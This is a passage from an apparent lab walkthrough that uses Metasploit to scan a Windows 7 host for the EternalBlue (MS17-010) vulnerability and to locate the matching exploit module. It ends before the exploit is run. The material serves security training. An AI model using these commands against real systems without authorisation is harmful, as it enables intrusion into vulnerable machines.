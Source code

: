 Metasploit will load, displaying the number of exploits, auxiliary modules, and payloads available.

![Msfconsole](https://cdn.hashnode.com/res/hashnode/image/upload/v1737563650243/bf779d7c-a272-4dc7-aeba-65b812af2268.webp)

---

## Scan for the EternalBlue (MS17-010) Vulnerability

Next, use Metasploit’s built-in scanner for EternalBlue:

```sh
search scanner eternalblue
```

![Scanner search results](https://cdn.hashnode.com/res/hashnode/image/upload/v1737563706786/62f94087-b078-46d9-a0fd-66f00f05336e.webp)

Use the `smb_ms17_010` scanner to check for the EternalBlue vulnerability.

```sh
use auxiliary/scanner/smb/smb_ms17_010
show options
```

Set the target’s IP address (RHOSTS) to your Windows machine:

```sh
set RHOSTS 10.10.217.189
```

Then, run the scanner:

```sh
run
```

If the scanner reports that the host is “likely vulnerable” and shows details such as Windows 7 Professional, you’ve confirmed the EternalBlue vulnerability.

![`ms17_010` scan results](https://cdn.hashnode.com/res/hashnode/image/upload/v1737563744272/f3204f5f-11aa-4778-aa7e-b4a6b9d90912.webp)

---

## Exploit the Vulnerability

Once you know the target is vulnerable, search for the actual EternalBlue exploit module:

```sh
search exploit eternalblue
```

![Exploit search results](https://cdn.hashnode.com/res/hashnode/image/upload/v1737563783135/0a4c7c5b-5f2b-4d4f-bb2a-c3af8b49f29e.webp)

You should see a list of possible exploits. The one we’re interested in is typically labelled something like:

```plaintext
exploit/windows/smb/ms17_010_eternalblue
```
